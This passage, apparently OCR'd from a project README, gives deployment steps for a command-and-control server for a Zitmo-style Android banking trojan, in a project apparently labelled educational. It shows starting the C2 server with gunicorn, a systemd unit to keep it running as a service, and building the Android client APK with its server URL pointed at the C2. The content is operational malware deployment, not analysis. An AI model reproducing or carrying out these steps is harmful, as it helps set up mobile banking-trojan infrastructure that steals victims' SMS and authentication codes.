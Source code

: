 ### 3.3 Starting the Server

```bash
# Development mode
python zitmo_c2_server.py

# Production mode with gunicorn
pip install gunicorn
gunicorn -w 4 -b 0.0.0.0:5000 zitmo_c2_server:app
```

### 3.4 Systemd Service (Linux)

**Create service file:**
```bash
sudo nano /etc/systemd/system/zitmo-c2.service
```

**Service configuration:**
```ini
[Unit]
Description=Zitmo C&C Server
After=network.target

[Service]
Type=simple
User=zitmo
WorkingDirectory=/opt/zitmo/server
Environment="PATH=/opt/zitmo/server/venv/bin"
ExecStart=/opt/zitmo/server/venv/bin/gunicorn -w 4 -b 0.0.0.0:5000 zitmo_c2_server:app
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

**Enable service:**
```bash
sudo systemctl enable zitmo-c2.service
sudo systemctl start zitmo-c2.service
```

## 4. Client Deployment

### 4.1 Building the APK

```bash
# 1. Open project in Android Studio
cd ZeuSZitma/EduZitmo

# 2. Update server configuration
# Edit ZitmoUtils.java
SERVER_URL_DEFAULT = "http://10.0.0.10:5000"

# 3. Build APK
./gradlew assembleDebug
# or use Android Studio: Build > Build APK
```
